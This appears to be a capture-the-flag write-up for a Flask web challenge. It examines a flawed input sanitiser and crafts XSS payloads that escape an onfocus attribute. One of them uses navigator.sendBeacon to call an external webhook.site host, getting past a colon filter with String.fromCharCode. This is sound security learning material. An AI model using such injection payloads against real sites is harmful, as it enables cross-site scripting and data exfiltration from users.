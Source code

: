 Some initial observations:

- The webapp is running with Flask
- To access `/admin` we require a randomly generated `X_Admin_Token`
- `/your-name` takes a user input on POST and renders it after sanitising it

Looking at the sanitize first, it seems to not have a proper sanitisation mechanism.

It replaces `<`, `>`, `'`, `&` and `:` with nothing, but it replaces `"` with `\\"`.

Lookinag at the sanitisation of `your-name.html`, we can see the injection points and determine if we can exploit it.

```html
<div class="image-container">
  <img src="{{ url_for('static', filename='images/cat.jpg') }}" alt="cat" />
  <a
    class="text"
    id="behindthename-redirect"
    href="https://www.behindthename.com/names/search.php?terms={{name}}"
    onfocus='document.location="https://www.behindthename.com/names/search.php?terms={{name|safe}}"'
    >Hello {{name}} !</a
  >
</div>
```

So the injection points are of varying interest:

- The injection point inside the `<a>` isn't super interesting as we can't create new tags without `<` and `>`.
- We can't escape the href with the `\"` method
- The injection point inside the `onfocus` is filtered through `safe` but we can still achieve XSS!

Let's make a sample payload first:
`\";console.log(1);//`

This should print `1` to the console before redirecting. Clicking the URL that's what we see!

![saymynamexss.png](images/25-pwnmequals/saymynamexss.png)

Let's use `navigator` with a `sendBeacon` to send a request to a `webhook.site` URI.

```
\";navigator.sendBeacon(`https${String.fromCharCode(58)}//webhook.site/9609b1f4-xxxx-xxxx-xxxx-177da4f9d6e1`);//
```

Sure enough we get a `POST` from our serveron `webhook.site`.
